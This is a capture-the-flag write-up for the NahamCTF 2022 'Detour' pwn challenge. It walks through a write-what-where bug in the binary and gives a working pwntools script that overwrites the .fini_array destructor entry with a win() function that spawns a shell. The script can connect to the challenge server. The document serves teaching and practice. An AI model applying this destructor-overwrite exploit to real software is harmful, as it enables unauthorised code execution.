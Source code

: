 ```yaml
---
title:  "Detour"
date:  2022-05-01
draft:  false
enableToc:  false
description: "A write-what-where scenario that enables us to overwrite the destructor (dtor) in the relocations table with our win() function to get a shell."
tags:
- pwn
- NahamCTF22
---
```


## Checksec
```
Canary                        : ✓
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : ✘
```
RelRO is completely disabled unlike any other challenge we have encountered, this means that we have write permessions to all the relocations.

## Exploitation
Running the binary will let us specify an address and a value and then It will assign that value to the adderss we provided.

```
hegz@pop-os$ ./detour
What: 1234
Where: 123123123213
Segmentation fault (core dumped)
```

I confirmed this by analyzing the binary in ghidra, below is the decompilation.

```c++
undefined8 main(void)

{
  long in_FS_OFFSET;
  size_t local_20;
  long local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);

  printf("What: ");
  __isoc99_scanf(&DAT_00402013,&local_20);
  getchar();

  printf("Where: ");
  __isoc99_scanf(&DAT_0040201f,&local_18);
  getchar();

  *(size_t *)((long)&base + local_18) = local_20;

  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

This is the part responsible of the write-what-where.
```c
*(size_t *)((long)&base + local_18) = local_20;
```

It basically means that It will write the value we provide in `local_20` at the address we provide at `local_18` incremented by the address of `base`, this is important when crafting our exploit as we have to subtract the address of base from the address we provide to get the correct address in the binary.

We also have a function that will execute a shell in our binary.
```c++
void win(void)

{
  system("/bin/sh");
  return;
}
```

Now we only need to locate the address that we will be writing to in order to redirect execution to our win() function.

The GOT is one good attack vector but we don't call any libc function (except __stack_chk_fail) after our write-what-where, this means that overwriting the GOT is useless since the overwritten GOT entry will never be referenced anyway.

The less obvious attack vector is the global destructor for our program, this is possible due the fact that we have write permissions to the binary relocations.

The global destructor is a routine that gets called when our main function is exiting.

Here is the backtrace of the binary after successfully ovewrwriting the global destructor.

```c++
[#0] 0x7ffff7e5c6ea → __GI___wait4(pid=0xddb6b, stat_loc=0x7fffffffd8d8, options=0x0, usage=0x0)
[#1] 0x7ffff7e5c6ab → __GI___waitpid(pid=<optimized out>, stat_loc=0x7fffffffd8d8, options=0x0)
[#2] 0x7ffff7dc394b → do_system(line=<optimized out>)
[#3] 0x40121d → win()
[#4] 0x7ffff7fd9f03 → _dl_fini()
[#5] 0x7ffff7db84e5 → __run_exit_handlers(status=0x0, listp=0x7ffff7f8c818 <__exit_funcs>, run_list_atexit=0x1, run_dtors=0x1)
[#6] 0x7ffff7db8660 → __GI_exit(status=<optimized out>)
[#7] 0x7ffff7d9cfd7 → __libc_start_call_main(main=0x401220 <main>, argc=0x1, argv=0x7fffffffde88)
[#8] 0x7ffff7d9d07d → __libc_start_main_impl(main=0x401220 <main>, argc=0x1, argv=0x7fffffffde88, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffde78)
[#9] 0x40111e → _start()
```

It is present in the .fini_array section under the symbol name `__do_global_dtors_aux_fini_array_entry`

Time to craft our exploit.

```python
from pwn import *

context.binary = e = ELF("./detour")
context.encoding = 'latin'

if args['REMOTE']:
    io = remote("challenge.nahamcon.com", 32149)
elif args['GDB']:
    # Breaks at RTN instruction.
    io = gdb.debug(context.binary.path, f"""
    b *main+143
""")
else:
    io = e.process()

what = str(e.symbols.win)
where = str(e.sym.__do_global_dtors_aux_fini_array_entry - e.sym.base)
info(f"Overwriting: {where} with {what}")

io.clean(1)
io.sendline(what)
io.clean(1)
io.sendline(where)
io.interactive()
```

<center>

![](/images/mc/ach_shell.png)

</center>
